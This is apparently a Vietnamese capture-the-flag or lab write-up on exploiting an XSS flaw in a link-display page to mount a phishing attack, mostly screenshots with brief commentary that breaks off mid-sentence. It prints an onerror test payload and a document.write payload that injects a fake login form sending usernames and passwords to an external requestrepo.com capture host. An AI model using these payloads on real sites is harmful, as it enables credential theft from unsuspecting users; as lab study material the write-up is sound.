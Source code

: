 ![image](https://github.com/user-attachments/assets/9d95e203-f52a-4134-9587-981ab27d2ed9)

![image](https://github.com/user-attachments/assets/82c28c16-bb55-404f-9c20-eab90b5e023d)

Test 1 số chức năng của web thì là đưa link và nó sẽ hiện ở dưới:

![image](https://github.com/user-attachments/assets/9e431984-81b7-4fcd-8fd8-54f10040f29b)

![image](https://github.com/user-attachments/assets/e706f2f2-3b8a-4470-b476-541c9185f6c0)

Nhìn src code có vẻ sẽ bị xss và do đề bài thế nên xss là chắc chắn:

![image](https://github.com/user-attachments/assets/b1ecd51d-785d-4b8e-971b-38f6feef9ea1)

Dùng payload `' onerror=alert(window.origin)>`  để thử xss:

![image](https://github.com/user-attachments/assets/d61c09b9-92e7-4443-b0e0-d74cff6c3454)

Do đề yêu cầu tạo 1 form gồm username và password để phishing, tôi sử dụng tool [request repo](https://requestrepo.com/), khi vào link https://7gj4ouxh.requestrepo.com/ thì web sẽ redirect đến http://10.129.125.84/phishing/login.php:

![image](https://github.com/user-attachments/assets/bdb2b3fe-12fc-4e75-913e-2d4c04d70c2b)

Sử dụng payload `'document.write('<h3>Please login to continue</h3><form action=https://7gj4ouxh.requestrepo.com/><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form> <script>document.getElementById('urlform').remove()</script>` để tạo login form và xóa cái ô nhập cũ đi:

![image](https://github.com/user-attachments/assets/68b30c0c-4d4d-4314-8adf-51575962dd33)

Sau khi nhập xong thì kết quả sẽ về đây đồng thời đưa về trang login:

![image](https://github.com/user-attachments/assets/9836d250-0a75-415a-811d-c5cb1e3b6dc2)

Lmao, tôi làm thử như thế hay phết mà không được

![image](https://github.com/user-attachments/assets/83a0655c-116a-4743-ab83-85d339c008b4)

Sau khi tìm hiểu thì có vẻ phải làm theo cách của bài ...

